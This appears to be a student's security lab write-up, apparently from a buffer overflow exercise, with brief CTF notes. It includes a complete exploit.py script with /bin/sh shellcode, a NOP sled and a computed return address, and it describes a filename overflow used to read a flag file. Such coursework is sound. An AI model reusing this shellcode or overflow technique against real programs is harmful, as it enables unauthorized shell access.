



# Task 1


32 bit shellcode


64 bit shellcode

Both versions open a shell where we can use some commands.

# Task 2


After creating a `badfile` with a length of 517 (we just copied the contents of `exploit.py` for ease of use), the program creates a buffer overflow.


The values of the ebp and buffer address.

# Task 3

As we used the stack-L1, and this program was compiled in 32 bits, we used the value 32 bit shellcode in call_shellcode.c.

To fill the buffer with the maximum possible number of `NOP` values, we placed the start value at `517 - len(shellcode)`, as the buffer can take 517 bytes and we still leave space for the shellcode.


The return variable used was the `ebp` in adition to the number `0x103`, as it should have a value between the address and the maximum possible number, 517.
The offset used was the `ebp` - buffer address + 4 bytes, as it'sa 32 bit architecture.


Exploit ran successfully.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 0x103           # Change this number 
offset = 0xffffcb18 - 0xffffcaac + 4              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

exploit.py code

# CTF

## Desafio 1

we followed the instructions given and then, after analysing the code , we gathered that the program would read 28 characters so we added 20 "a" before "flag.txt" to overflow.

## Desafio 2

we gained access.

we converted the file's name from hexadecimal to ASCII and ran the script.
